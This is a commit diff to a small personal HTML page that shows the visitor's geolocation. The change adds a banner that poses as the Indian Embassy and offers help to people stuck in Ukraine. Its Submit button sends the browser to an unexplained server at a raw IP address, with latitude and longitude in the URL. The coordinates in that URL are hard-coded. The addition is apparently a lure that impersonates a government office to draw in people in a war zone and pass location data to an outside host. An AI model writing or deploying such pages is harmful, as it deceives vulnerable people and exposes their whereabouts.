

Before and after one commit to travellingcoderr/travellingcoderr.github.io, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,9 +1,20 @@
 <!DOCTYPE html>
 <html>
+   <head>
+      <style>
+         .myDiv {
+         border: 2px outset red;
+         background-color: lightblue;
+         text-align: center;
+         }
+      </style>
+   </head>
    <body>
       <p id="demo"></p>
-
       <script>
+         var saveConsent = function() {
+         	location.href = "https://44.203.144.18:5050/getaddress?lat=28.1686591&lon=-82.3045107";
+         }
 
          window.onload = function() {
          	getLocation();
@@ -24,6 +35,12 @@ function showPosition(position) {
            "<br>Longitude: " + position.coords.longitude;
          }
       </script>
-
+      <div class="myDiv">
+         <h2>Save Humanity, Indian Embassy is here to help!</h2>
+         <p>If you are stuck in Ukraine and need immediate assistance in getting out, then please click "Submit" button below.</p>
+         <p>
+            <input type="button" value="Submit" onclick="saveConsent();" />
+         </p>
+      </div>
    </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
